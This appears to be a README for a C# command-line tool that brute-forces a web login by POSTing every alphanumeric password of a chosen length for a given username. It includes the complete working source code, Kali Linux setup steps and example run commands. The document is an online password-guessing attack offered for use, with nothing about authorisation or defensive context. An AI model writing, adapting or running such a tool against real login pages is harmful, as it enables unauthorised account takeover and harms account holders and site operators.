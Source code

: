 __<p style="font-size:40px">How the Code Works:</p>__

__<p style="font-size:20px">Arguments:</p>__

- url: The URL to which the HTTP POST requests are sent.
- username: The username for which you're trying to brute-force the password.
- passwordLength: The length of the password that will be brute-forced.

**Process:**

1. The program accepts the url, username, and passwordLength as arguments from the command line.
2. It then brute-forces passwords by generating all possible combinations of characters (uppercase, lowercase, and digits).
3. For each password attempt, the program sends an HTTP POST request to the specified URL with the username and the current password.
4. If the server responds with "Success", the correct password is displayed, and the process stops.


**How to Run the Program in Kali Linux:**

**Compile and Run:**

After creating the C# project and adding the code as described earlier, you can run the program using the following command:.

`dotnet run <url> <username> <passwordLength>`

For example:

`dotnet run https://example.com/login myuser 4`

**Explanation of Command:**
- https://example.com/login: This is the URL where the POST requests will be sent.
- myuser: This is the username for which the password is being brute-forced.
- 4: This is the length of the password being tested.

**Notes:**
- This program uses a simple character set of lowercase and uppercase letters, and digits (a-z, A-Z, 0-9).
- You can modify the character set in the charset variable if you want to include additional characters (e.g., special symbols).
- The program expects the server to respond with a string that contains "Success" upon a successful login attempt. You may need to modify this logic depending on the actual server's response format.

  
**Instructions for Using the C# Brute Force Script on Kali Linux via Terminal**

Follow these steps to set up, compile, and run the C# brute force script on Kali Linux through the terminal.

**1. Install .NET SDK on Kali Linux**
  Before running the C# script, you need to install the .NET SDK. Here’s how you can do it:
   
  **1.1 Update your package lists and install the required dependencies:**
    ```
    sudo apt update
    ```
    ```
    sudo apt install -y apt-transport-https software-properties-common
    ```
   
   **1.2. Add Microsoft’s package signing key and repository:**
    ```
    wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
    ```
    ```
    sudo dpkg -i packages-microsoft-prod.deb
    ```
   
   **1.3. Install the .NET SDK:**
    ```
    sudo apt update
    ```
    ```
    sudo apt install -y dotnet-sdk-7.0
    ```
  
  **1.4. Verify the installation:**
    `dotnet --version`
    If installed correctly, it will display the version number (e.g., 7.0.100).

**2. Set Up the Project**
  
   **2.1. Create a new directory for the project:**
   ```
   mkdir BruteForcePassword
   ```
   ```
   cd BruteForcePassword
   ```
  
   **2.2. Create a new C# console application project:**
   `dotnet new console`
   
   This command generates the basic structure for a console project with a Program.cs file.

   **3. Add the Script**
   **3.1. Open the Program.cs file in a text editor:**
   `nano Program.cs`
   **3.2. Replace the content of Program.cs with the script code (provided above):**
```
using System;
using System.Net.Http;
using System.Text;
using System.Threading.Tasks;

class Program
{
    static async Task Main(string[] args)
    {
        if (args.Length != 3)
        {
            Console.WriteLine("Usage: dotnet run <url> <username> <passwordLength>");
            return;
        }

        string url = args[0];
        string username = args[1];
        int passwordLength;

        if (!int.TryParse(args[2], out passwordLength))
        {
            Console.WriteLine("Error: passwordLength must be an integer.");
            return;
        }

        await BruteForcePassword(url, username, passwordLength);
    }

    static async Task BruteForcePassword(string url, string username, int passwordLength)
    {
        using (HttpClient client = new HttpClient())
        {
            string charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
            int charsetLength = charset.Length;
            char[] password = new char[passwordLength];

            for (int i = 0; i < passwordLength; i++)
            {
                password[i] = charset[0];
            }

            bool success = false;

            while (!success)
            {
                string passwordString = new string(password);
                var data = new { username = username, password = passwordString };

                var json = Newtonsoft.Json.JsonConvert.SerializeObject(data);
                var content = new StringContent(json, Encoding.UTF8, "application/json");

                try
                {
                    HttpResponseMessage response = await client.PostAsync(url, content);
                    string responseString = await response.Content.ReadAsStringAsync();

                    Console.WriteLine($"Trying: {passwordString} - Server Response: {response.StatusCode}");

                    if (responseString.Contains("Success"))
                    {
                        Console.WriteLine($"Success! The correct password is: {passwordString}");
                        success = true;
                    }
                }
                catch (Exception ex)
                {
                    Console.WriteLine($"Error: {ex.Message}");
                    return;
                }

                success = IncrementPassword(password, charset, charsetLength);
            }
        }
    }

    static bool IncrementPassword(char[] password, string charset, int charsetLength)
    {
        for (int i = password.Length - 1; i >= 0; i--)
        {
            int currentCharIndex = charset.IndexOf(password[i]);

            if (currentCharIndex < charsetLength - 1)
            {
                password[i] = charset[currentCharIndex + 1];
                return false;
            }

            password[i] = charset[0];
        }

        return true;
    }
}
```

   **3.3. Save and exit the editor:**
   - Press CTRL + O, then Enter to save.
   - Press CTRL + X to exit nano.

**4. Install Newtonsoft.Json (for JSON serialization)**
The script uses `Newtonsoft.Json` for converting data to JSON format. You need to install this package in your project:

   **4.1. Install the Newtonsoft.Json package:**
   `dotnet add package Newtonsoft.Json`
   
**5. Compile and Run the Script**
   **5.1. Compile and run the project with your command-line arguments:**
   `dotnet run <url> <username> <passwordLength>`
   
   - `<url>`: The URL to which the POST requests will be sent.
   - `<username>`: The username for which you are attempting to brute-force the password.
   - `<passwordLength>`: The length of the password being brute-forced.

**Example:**
`dotnet run https://example.com/login myuser 4`

In this example:

   - The program will brute-force the password for the user myuser at https://example.com/login.
   - It will try passwords that are 4 characters long.

**6. Troubleshooting**

   - Ensure the server URL is correct and accessible.
   - The script expects the server to return a response containing the word "Success" upon a successful login. You may need to adjust this part of the code based on the actual response from the server you're testing against.


**Summary of Steps:**

1. Install .NET SDK: Set up the environment on Kali Linux.
2. Create a Project: Use dotnet new console to create a C# project.
3. Add the Script: Replace the default content in Program.cs with the provided script.
4. Install Dependencies: Install the Newtonsoft.Json package for JSON handling.
5. Run the Script: Use dotnet run with the URL, username, and password length as arguments.
6. Now your C# script will execute, sending HTTP POST requests and brute-forcing the password based on the command-line inputs.










































      
    


